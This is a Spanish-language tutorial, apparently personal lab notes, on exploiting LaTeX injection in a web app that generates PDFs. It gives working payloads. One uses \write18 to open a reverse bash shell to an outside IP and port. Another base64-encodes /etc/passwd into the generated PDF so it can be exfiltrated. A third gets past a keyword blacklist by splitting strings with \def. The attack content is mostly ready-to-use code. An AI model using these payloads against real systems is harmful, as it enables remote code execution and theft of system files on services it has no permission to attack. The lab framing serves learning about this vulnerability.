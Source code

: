 
![[Latex 11.png]]

De esta manera tendríamos el documento con el output del comando proporcionado.

![[Latex 12.png]]

----

Para enviarnos una **Bash interactiva** lo que podemos hacer es colocar un **Oneliner en base64** que nos asigne una **Bash** tal que ``bash -c "bash -i >& /dev/tcp/192.168.0.194/4343 0>&1"``. Ahora solo queda ponernos en escucha en el *puerto 4343* y enviar la petición con el botón *Generate PDF* y recibiremos la Shell.

```latex
\immediate\write18{bash -c "bash -i  >& /dev/tcp/192.168.0.194/4343 0>&1"}
\newread\file
\openin\file=output
\read\file to\line
\text{\line}
\closein\file
```
## Injection con "input" e "include" en ON

Si el comando ``input`` y el comando ``include`` estuvieran **permitidos**, es decir, que no están en la *Blacklist*, podríamos hacer uso de lo visto previamente combinando estos comandos. 
(Modificamos para este ejemplo el archivo *ajax.php* y le quitamos la Blacklist a ambos comandos, en su lugar colocamos en Blacklist el nombre "*pepito*")

Si colocamos ``\input{/etc/passwd}`` de primeras, recordemos que */etc/passwd* posee caracteres que hacen que falle el programa, los ``_`` por ejemplo, para poder evitar que el programa falle, podemos hacer lo siguiente

```latex
\immediate\write18{cat /etc/passwd | base64 > output}
\input{output}
```

Esto nos brindará un *PDF* con todo el */etc/passwd* en **base64**, por lo tanto si copiamos todo el contenido y lo pegamos en un archivo *data*, podremos hacer esto

- ``cat data | tr -d '\n' | base 64 -d`` 

La herramienta ``tr`` se usa para quitar los saltos de linea del archivo *data*.

## Bypass de Blacklist

Hay veces que podemos hacer un **Bypass** de las líneas que estén dentro de la *Blacklist*, todo esto se podría hacer empleando comandos propios de LaTeX tal que así. ==Esto no se puede emplear para el uso de comandos como== ``input`` o ``include``.

Recordemos que en el punto anterior, colocamos a "*pepito*" en la *Blacklist*, por lo tanto si colocamos esa cadena y le damos a *Generate PDF*, nos dará el error, pero si hacemos uso de los siguientes comandos para fragmentar la palabra en dos partes separadas y luego las unimos podremos evitar el error.

```latex
\def\first{pep}
\def\second{ito}
\first\second
```